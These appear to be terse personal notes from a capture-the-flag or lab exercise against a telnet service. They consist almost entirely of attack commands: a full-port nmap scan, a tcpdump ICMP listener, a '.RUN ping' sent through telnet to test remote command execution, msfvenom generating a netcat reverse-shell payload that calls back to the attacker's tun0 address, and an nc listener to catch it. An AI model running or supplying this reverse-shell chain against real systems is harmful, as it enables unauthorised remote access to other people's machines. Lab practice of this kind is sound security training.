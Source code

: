 ```bash
telnet <IP> <port>
```

for all ports
```bash
nmap -p- <ip>
```

`tcpdump` listener
```bash
sudo tcpdump ip proto \\icmp -i tun0
```

inside telnet
sent 1 ping message
```
.RUN ping <my-local-ip> -c 1
```

generating reverse shell

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R

msfvenom -p cmd/unix/reverse_netcat lhost=[local tun1 10.10.124.127] lport=4444 R
```


```bash
nc -lvp [listening port]
```